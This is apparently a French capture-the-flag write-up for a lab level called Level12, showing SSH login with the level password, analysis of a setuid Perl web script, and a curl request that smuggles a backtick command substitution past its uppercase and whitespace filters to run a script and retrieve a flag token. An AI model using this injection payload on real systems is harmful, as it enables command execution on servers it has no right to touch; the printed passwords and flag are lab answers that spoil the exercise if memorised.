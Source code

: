 # Level12

Se connecter en tant que `level12`:

    $ ssh 192.168.1.124 -p 4242 -l level12
    level12@192.168.1.124's password: fa6v5ateaw21peobuub8ipe6s

---

Premiere étape de recherche

    $ ls -la
    -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl

Comme pour le level 4 on trouve dans le dossier `/var/www` et dans le home un fichier `level12.pl`.

Le script est un serveur web écoutant sur le port `4646`

Cette page web prend donc 2 paramètres cette fois ci, `x` et `y`.

- `x` Passe dans 2 regex, une pour passer tous les charactères en upper case, et une autre qui supprime tous les espaces, puis est utilisée pour executer la commande `egrep`.

- `y` ne nous servira pas.

`egrep` est une commande qui va rechercher un motif dans des dossiers qui respectent ce motif.

Il nous suffit donc de creer un script bash dans /tmp comme celui du level 05, en majuscules (pour la regex).

    $ vim /tmp/SCRIPT
    #!/bin/bash
    /bin/getflag > /tmp/flag12
    
    $ chmod +x /tmp/SCRIPT

Nous pouvons nous rendre sur l'url

    $ curl 'http://192.168.1.124:4646/?x=`/*/script`'

Il ne nous reste plus qu'à cat le fichier /tmp/flag12

    $ cat /tmp/flag12

Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
